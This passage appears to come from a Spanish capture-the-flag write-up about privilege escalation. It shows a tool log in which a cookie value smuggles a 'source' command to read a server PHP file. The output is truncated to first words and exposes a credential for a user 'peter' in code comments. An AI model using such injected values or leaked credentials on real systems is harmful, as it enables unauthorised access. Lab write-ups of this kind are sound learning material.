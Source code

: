 # Escalada

Obtengo el archivo ```fix.php```. Ahora sí es legible

```null
#> .readfile /var/www/staging/fix.php
DEBUG:__main__:auth_cookie: 'xxxx\nsource /var/www/staging/fix.php\n'
DEBUG:__main__:dummy exec returned: None
INFO:__main__:<?php
class
protected
protected
protected
public
return
}
public
if($result
static::passed($test_name);
}
static::failed($test_name);
}
}
public
if($result
static::failed($test_name);
}
static::passed($test_name);
}
}
public
if(!$username){
$username
$password
}
//modified
//for
//fix
//peter
//CQXpm\z)G5D#%S$y=
}
public
if($result
static::passed($test_name);
}
static::failed($test_name);
}
}
public
echo
echo
echo
}
private
echo
static::$failed++;
}
private
static::character(".");
static::$passed++;
}
private
echo
```